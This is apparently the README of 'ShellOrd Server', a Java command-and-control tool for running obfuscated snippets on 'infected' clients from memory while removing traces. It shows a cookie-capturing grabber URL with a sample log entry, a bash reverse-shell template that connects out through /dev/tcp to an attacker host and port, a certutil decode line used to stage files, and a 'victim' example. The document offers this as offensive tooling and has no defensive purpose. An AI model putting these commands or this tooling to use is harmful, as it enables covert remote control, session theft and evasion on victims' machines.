






🐚 ShellOrd Server Cross-Platform written in Java

- Plugins: A collection of plugins. (.jar or .py). 

## Requirements

- Python plugins requires Jython Standalone 2.7.3.
- ShellOrd Server requires Java 17+.
- Import Certificates in format PKCS12 (.p12) to enable SSL or HTTPS.

## Web server - Login


### Bypass localhost + capture requests

https://shellord.mibaltoalex.com:60443

shellord.mibaltoalex.com => 127.0.0.1

### Grabber requests (GET / POST)

https://shellord.mibaltoalex.com:60443/grabber/info?cookie=captured

`2022-03-12 11:08:20.842 SHELLORD::grabber: Request captured: 'Host: 127.0.0.1 ; GET /info?cookie=captured'`

## Snippets

All snippets are packed, compressed and encrypted in `.mar` (MAR; MIBALTOALEX ARchive) files.
A snippet can contain URIs, binary code, scripts (bash, powershell, etc) and plain text (.c, .py, .java, .rs, .sh, .rb, .bat, .txt, ...).

Allows you to run any obfuscated snippet on the infected client. You can also run any obfuscated snippet from memory to the client in paranoid mode and remove traces.

Example to use parameters in snippets: 
```bash
# bash
bash -c 'exec bash -i &>/dev/tcp/~[[rhost]]/~[[rport]] <&1'
```
```powershell
# powershell
certutil -decode ~[[file_input]] ~[[file_output]]
```

## Shell

Includes commands to configure SHELLORD.



Note: Deprecated old mode

## Themes

Includes dark and light theme.



## Extensions

Includes extensions.



### API

Now allows to set metadata both in code and in annotations



### Menu de rutas

Includes menu with custom routes.



### Example

Example launch calculator on victim (Windows)



## Utils

- JVM Reverse Engineering

